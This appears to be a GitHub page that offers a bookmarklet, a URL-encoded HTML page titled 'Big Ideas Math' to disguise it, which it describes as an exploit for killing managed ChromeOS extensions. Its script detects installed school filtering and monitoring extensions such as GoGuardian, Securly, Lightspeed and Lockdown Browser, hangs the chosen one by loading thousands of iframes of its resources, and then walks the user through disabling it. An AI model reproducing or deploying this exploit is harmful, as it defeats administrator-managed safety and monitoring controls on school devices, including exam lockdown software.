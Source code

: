For school :)
Drag it into the bookmark bar:
data:text/html;charset=utf-8,<!DOCTYPE html>%0A<html lang%3D"en">%0A<head>%0A <meta charset%3D"UTF-8">%0A <meta name%3D"viewport" content%3D"width%3Ddevice-width%2C initial-scale%3D1.0">%0A <title>Big Ideas Math<%2Ftitle>%0A <link rel%3D"shortcut icon" type%3D"image%2Fpng" href%3D"https%3A%2F%2Fblobby-boi.github.io%2FBlobbypassXSS%2Ffavicon.png">%0A <link rel%3D"stylesheet" href%3D"https%3A%2F%2Ffonts.googleapis.com%2Fcss2%3Ffamily%3DVarela%2BRound%26display%3Dswap">%0A <style>%0A body %7B%0A font-family%3A 'Varela Round'%2C sans-serif%3B%0A margin%3A 0%3B%0A padding%3A 0%3B%0A background-color%3A %23f8f9fa%3B%0A color%3A %23333%3B%0A %7D%0A header %7B%0A background-color%3A %23343a40%3B%0A color%3A %23fff%3B%0A padding%3A 10px 20px%3B%0A text-align%3A center%3B%0A display%3A flex%3B%0A align-items%3A center%3B%0A justify-content%3A center%3B%0A box-shadow%3A 0 2px 5px rgba(0%2C 0%2C 0%2C 0.1)%3B%0A %7D%0A .logo %7B%0A width%3A 50px%3B%0A height%3A 50px%3B%0A margin-right%3A 10px%3B%0A %7D%0A .container %7B%0A max-width%3A 800px%3B%0A margin%3A 150px auto 0 auto%3B%0A padding%3A 20px%3B%0A text-align%3A center%3B%0A background%3A %23fff%3B%0A box-shadow%3A 0 4px 8px rgba(0%2C 0%2C 0%2C 0.1)%3B%0A border-radius%3A 8px%3B%0A %7D%0A select %7B%0A font-family%3A 'Varela Round'%2C sans-serif%3B%0A margin-bottom%3A 10px%3B%0A padding%3A 10px%3B%0A font-size%3A 16px%3B%0A border%3A 1px solid %23ced4da%3B%0A border-radius%3A 4px%3B%0A width%3A 100%25%3B%0A %7D%0A button %7B%0A font-family%3A 'Varela Round'%2C sans-serif%3B%0A background-color%3A %23007bff%3B%0A color%3A %23fff%3B%0A border%3A none%3B%0A padding%3A 10px 20px%3B%0A font-size%3A 16px%3B%0A cursor%3A pointer%3B%0A border-radius%3A 5px%3B%0A margin-top%3A 10px%3B%0A transition%3A background-color 0.3s ease%3B%0A %7D%0A button%3Ahover %7B%0A background-color%3A %230056b3%3B%0A %7D%0A .overlay %7B%0A position%3A fixed%3B%0A top%3A 0%3B%0A left%3A 0%3B%0A width%3A 100%25%3B%0A height%3A 100%25%3B%0A background-color%3A rgba(0%2C 0%2C 0%2C 0.7)%3B%0A display%3A none%3B%0A justify-content%3A center%3B%0A align-items%3A center%3B%0A z-index%3A 9999%3B%0A color%3A %23fff%3B%0A font-size%3A 24px%3B%0A user-select%3A none%3B%0A flex-direction%3A column%3B%0A %7D%0A .spinner %7B%0A border%3A 6px solid rgba(255%2C 255%2C 255%2C 0.3)%3B%0A border-top%3A 6px solid %23fff%3B%0A border-radius%3A 50%25%3B%0A width%3A 40px%3B%0A height%3A 40px%3B%0A animation%3A spin 1s linear infinite%3B%0A margin-bottom%3A 20px%3B%0A %7D%0A %40keyframes spin %7B%0A 0%25 %7B transform%3A rotate(0deg)%3B %7D%0A 100%25 %7B transform%3A rotate(360deg)%3B %7D%0A %7D%0A %23killExtensionText %7B%0A display%3A none%3B%0A margin-top%3A 20px%3B%0A color%3A %23333%3B%0A font-size%3A 18px%3B%0A text-align%3A center%3B%0A background%3A %23e9ecef%3B%0A padding%3A 20px%3B%0A border-radius%3A 8px%3B%0A box-shadow%3A 0 4px 8px rgba(0%2C 0%2C 0%2C 0.1)%3B%0A %7D%0A %09 %23killButton %7B%0A%09 display%3A none%3B%0A%09 background-color%3A %23dc3545%3B%0A%09 color%3A %23fff%3B%0A%09 border%3A none%3B%0A%09 padding%3A 10px 20px%3B%0A%09 font-size%3A 16px%3B%0A%09 cursor%3A pointer%3B%0A%09 border-radius%3A 5px%3B%0A %09 transition%3A background-color 0.3s ease%3B%0A%09%7D%0A%0A%09%23killButton%3Ahover %7B%0A%09 background-color%3A %239c1c28%3B%0A%09%7D%0A footer %7B%0A background-color%3A %23343a40%3B%0A color%3A %23fff%3B%0A text-align%3A center%3B%0A padding%3A 10px%3B%0A position%3A fixed%3B%0A bottom%3A 0%3B%0A width%3A 100%25%3B%0A %7D%0A footer a %7B%0A color%3A %23007bff%3B%0A text-decoration%3A none%3B%0A %7D%0A footer a%3Ahover %7B%0A text-decoration%3A underline%3B%0A %7D%0A <%2Fstyle>%0A<%2Fhead>%0A<body>%0A%0A<header>%0A <img src%3D"https%3A%2F%2Fblobby-boi.github.io%2FBlobbypassXSS%2Ffavicon.png" alt%3D"Logo" class%3D"logo">%0A <h1>Big Ideas Math<%2Fh1>%0A<%2Fheader>%0A%0A<div class%3D"container">%0A <p>This an exploit that allows ChromeOS users to kill managed extensions after the LTMEAT patch. It remains unpatched in all new ChromeOS versions as of December 2024.<%2Fp>%0A <label for%3D"iframeSelect" id%3D"labelForIframeSelect">Select extension%3A<%2Flabel>%0A <select id%3D"iframeSelect">%0A <%2Fselect>%0A <button onclick%3D"warning()%3B" id%3D"hangButton">Hang Extension!<%2Fbutton>%0A <button id%3D"killButton" onclick%3D"openExtensionPopup()%3B">Kill Extension!<%2Fbutton>%0A<%2Fdiv>%0A%0A<div class%3D"overlay" id%3D"overlay">%0A <div class%3D"spinner"><%2Fdiv>%0A Hanging... (This will take about 1 minute)%0A<%2Fdiv>%0A<div id%3D"killExtensionText"><%2Fdiv>%0A%0A<footer>%0A <p>Made by <a href%3D"https%3A%2F%2Flucasliorle.github.io%2F">LucasLiorLE%0A<%2Ffooter>%0A%0A<script>%0A async function checkExtensionURL(url) %7B%0A try %7B%0A const response %3D await fetch(url)%3B%0A if (response.ok) %7B%0A return true%3B%0A %7D else %7B%0A return false%3B%0A %7D%0A %7D catch (error) %7B%0A return false%3B%0A %7D%0A %7D%0A%0A async function populateSelectOptions() %7B%0A const selectElement %3D document.getElementById("iframeSelect")%3B%0A const extensions %3D %7B%0A "Securly"%3A "chrome-extension%3A%2F%2Fjoflmkccibkooplaeoinecjbmdebglab%2Ffonts%2FMetropolis.css"%2C%0A "Securly (old)"%3A "chrome-extension%3A%2F%2Fiheobagjkfklnlikgihanlhcddjoihkg%2Ffonts%2FMetropolis.css"%2C%0A "GoGuardian"%3A "chrome-extension%3A%2F%2Fhaldlgldplgnggkjaafhelgiaglafanh%2Fyoutube_injection.js"%2C%0A "LANSchool"%3A "chrome-extension%3A%2F%2Fbaleiojnjpgeojohhhfbichcodgljmnj%2Fblocked.html"%2C%0A "Linewize"%3A "chrome-extension%3A%2F%2Fddfbkhpmcdbciejenfcolaaiebnjcbfc%2Fbackground%2Fassets%2Fpages%2Fdefault-blocked.html"%2C%0A "Blocksi"%3A "chrome-extension%3A%2F%2Fghlpmldmjjhmdgmneoaibbegkjjbonbk%2Fpages%2FblockPage.html"%2C%0A "FortiGuard"%3A "chrome-extension%3A%2F%2Figbgpehnbmhgdgjbhkkpedommgmfbeao%2Fyoutube_injection.js"%2C%0A "Cisco Umbrella"%3A "chrome-extension%3A%2F%2Fjcdhmojfecjfmbdpchihbeilohgnbdci%2Fblocked.html"%2C%0A "ContentKeeper"%3A "chrome-extension%3A%2F%2Fjdogphakondfdmcanpapfahkdomaicfa%2Fimg%2Fckauth19x.png"%2C%0A "CK-Authenticator G3"%3A "chrome-extension%3A%2F%2Fodoanpnonilogofggaohhkdkdgbhdljp%2Fimg%2Fckauth19x.png"%2C%0A "Securly Classroom"%3A "chrome-extension%3A%2F%2Fjfbecfmiegcjddenjhlbhlikcbfmnafd%2Fnotfound.html"%2C%0A "Hapara"%3A "chrome-extension%3A%2F%2Fkbohafcopfpigkjdimdcdgenlhkmhbnc%2Fblocked.html"%2C%0A "Hapara (new ID)"%3A "chrome-extension%3A%2F%2Faceopacgaepdcelohobicpffbbejnfac%2Fblocked.html"%2C%0A "iboss"%3A "chrome-extension%3A%2F%2Fkmffehbidlalibfeklaefnckpidbodff%2Frestricted.html"%2C%0A "Lightspeed Digital Insight Agent"%3A "chrome-extension%3A%2F%2Fnjdniclgegijdcdliklgieicanpmcngj%2Fjs%2Fwasm_exec.js"%2C%0A "Lightspeed Filter Agent"%3A "chrome-extension%3A%2F%2Fadkcpkpghahmbopkjchobieckeoaoeem%2Ficon-128.png"%2C%0A "Lightspeed Classroom"%3A "chrome-extension%3A%2F%2Fkkbmdgjggcdajckdlbngdjonpchpaiea%2Fassets%2Ficon-classroom-128.png"%2C%0A "InterCLASS Filtering Service"%3A "chrome-extension%3A%2F%2Fjbddgjglgkkneonnineaohdhabjbgopi%2Fpages%2Fmessage-page.html"%2C%0A "InterSafe GatewayConnection Agent"%3A "chrome-extension%3A%2F%2Fecjoghccnjlodjlmkgmnbnkdcbnjgden%2Fresources%2Foptions.js"%2C%0A "LoiLo Web Filters"%3A "chrome-extension%3A%2F%2Fpabjlbjcgldndnpjnokjakbdofjgnfia%2Fimage%2Fallow_icon%2Fshield_green_128x128.png"%2C%0A "Gopher Buddy"%3A "chrome-extension%3A%2F%2Fcgbbbjmgdpnifijconhamggjehlamcif%2Fimages%2Fgopher-buddy_128x128_color.png"%2C%0A "LanSchool Web Helper"%3A "chrome-extension%3A%2F%2Fhonjcnefekfnompampcpmcdadibmjhlk%2Fblocked.html"%2C%0A "IMTLazarus"%3A "chrome-extension%3A%2F%2Fcgigopjakkeclhggchgnhmpmhghcbnaf%2Fmodels%2Fmodel.json"%2C%0A "Impero Backdrop"%3A "chrome-extension%3A%2F%2Fjjpmjccpemllnmgiaojaocgnakpmfgjg%2Flicenses.html"%2C%0A "Mobile Guardian"%3A "chrome-extension%3A%2F%2Ffgmafhdohjkdhfaacgbgclmfgkgokgmb%2Fblock.html"%2C%0A "NetSupport School Student"%3A "chrome-extension%3A%2F%2Fgcjpefhffmcgplgklffgbebganmhffje%2F_locales%2Flt%2Fmessages.json"%2C%0A "Lightspeed Alert Agent"%3A "chrome-extension%3A%2F%2Fgcjpefhffmcgplgklffgbebganmhffje%2F_locales%2Flt%2Fmain.js"%2C%0A "Lightspeed Alert Agent 2"%3A "chrome-extension%3A%2F%2Fgcjpefhffmcgplgklffgbebganmhffje%2F_locales%2Flt%2Fin_page.js"%2C%0A "Lockdown Browser"%3A "chrome-extension%3A%2F%2Ffogjeanjfbiombghnmkmmophfeccjdki%2Fmanifest.json"%2C%0A "Linewize Filter"%3A "chrome-extension%3A%2F%2Fifinpabiejbjobcphhaomiifjibpkjlf%2Fbackground%2Fassets%2Fpages%2Fdefault-blocked.html"%2C%0A %7D%3B%0A %0A let hasSupportedExtensions %3D false%3B%0A%0A for (const %5Bname%2C url%5D of Object.entries(extensions)) %7B%0A if (await checkExtensionURL(url)) %7B%0A const option %3D document.createElement("option")%3B%0A option.value %3D url%3B%0A option.textContent %3D name%3B%0A selectElement.appendChild(option)%3B%0A hasSupportedExtensions %3D true%3B%0A %7D%0A %7D%0A %0A if (!hasSupportedExtensions) %7B%0A const option %3D document.createElement("option")%3B%0A option.value %3D ""%3B%0A option.textContent %3D "No supported extensions installed"%3B%0A selectElement.appendChild(option)%3B%0A document.getElementById("hangButton").style.display %3D "none"%3B%0A %7D%0A %7D%0A%0A populateSelectOptions()%3B%0A %0A function replaceIframes(container%2C iframeSrc) %7B%0A for (var i %3D 0%3B i < 3000%3B i%2B%2B) %7B%0A var iframe %3D document.createElement('iframe')%3B%0A iframe.src %3D iframeSrc%3B%0A iframe.style.width %3D '100%25'%3B%0A iframe.style.height %3D '100px'%3B%0A container.appendChild(iframe)%3B%0A %7D%0A setTimeout(function() %7B%0A while (container.firstChild) %7B%0A container.removeChild(container.firstChild)%3B%0A %7D%0A replaceIframes(container%2C iframeSrc)%3B%0A %7D%2C 5)%3B%0A %7D%0A%0A function warning() %7B%0A var overlay %3D document.getElementById("overlay")%3B%0A overlay.style.display %3D "flex"%3B%0A var iframeSelect %3D document.getElementById("iframeSelect")%3B%0A var selectedOption %3D iframeSelect.options%5BiframeSelect.selectedIndex%5D.text%3B%0A var selectedSrc %3D iframeSelect.value%3B%0A var popup %3D window.open(""%2C "PopupWindow"%2C "width%3D100%2Cheight%3D100")%3B%0A var popupDocument %3D popup.document%3B%0A var popupBody %3D popupDocument.body%3B%0A var iframeContainer %3D popupDocument.createElement('div')%3B%0A iframeContainer.id %3D 'iframeContainer'%3B%0A popupBody.appendChild(iframeContainer)%3B%0A replaceIframes(iframeContainer%2C selectedSrc)%3B%0A setTimeout(function() %7B%0A popup.close()%3B%0A var extensionId %3D selectedSrc.substring(selectedSrc.indexOf("%2F%2F") %2B 2%2C selectedSrc.indexOf("%2F"%2C selectedSrc.indexOf("%2F%2F") %2B 2))%3B%0A var extensionURL %3D "chrome-extension%3A%2F%2F" %2B extensionId%3B%0A var killExtensionText %3D document.getElementById("killExtensionText")%3B%0A killExtensionText.innerHTML %3D "Now that the extension <strong>" %2B selectedOption %2B "<%2Fstrong> has been hanged%2C press the button above."%3B%0A setTimeout(function() %7B%0A overlay.style.display %3D "none"%3B%0A killExtensionText.style.display %3D "block"%3B%0A document.getElementById("killButton").style.display %3D "inline-block"%3B%0A document.getElementById("hangButton").style.display %3D "none"%3B%0A%09document.getElementById("iframeSelect").style.display %3D "none"%3B%0A%09document.getElementById("labelForIframeSelect").style.display %3D "none"%3B%0A document.getElementById("killButton").setAttribute("data-url"%2C selectedSrc)%3B%0A %7D%2C 10000)%3B%0A %7D%2C 5000)%3B%0A %7D%0A%0A function openExtensionPopup() %7B%0A var selectedSrc %3D document.getElementById("killButton").getAttribute("data-url")%3B%0A var extensionId %3D selectedSrc.substring(selectedSrc.indexOf("%2F%2F") %2B 2%2C selectedSrc.indexOf("%2F"%2C selectedSrc.indexOf("%2F%2F") %2B 2))%3B%0A var killExtensionText %3D document.getElementById("killExtensionText")%3B%0A document.getElementById("killButton").style.display %3D "none"%3B%0A killExtensionText.innerHTML %3D "Make sure to keep this tab open. Then in a new tab open <strong>chrome%3A%2F%2Fextensions%2F%3Fid%3D" %2B extensionId %2B "<%2Fstrong> Flip the switch called allow access to file URLs twice. The extension was successfully killed! Now you can close that tab as well as this one. If you want to restore the extension%2C flip the allow access to file URLs switch again."%3B%0A window.location.href %3D selectedSrc%3B%0A %7D%0A<%2Fscript>%0A<%2Fbody>%0A<%2Fhtml>
